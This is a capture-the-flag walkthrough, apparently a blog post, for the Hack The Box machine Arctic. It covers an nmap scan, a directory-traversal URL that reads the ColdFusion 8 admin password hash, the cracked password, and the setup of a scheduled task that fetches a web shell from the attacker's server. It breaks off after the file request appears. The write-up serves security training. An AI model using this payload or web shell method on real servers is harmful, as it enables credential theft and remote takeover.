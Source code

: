 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule]https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try _Run Shedule Task_ button below **Actions**.
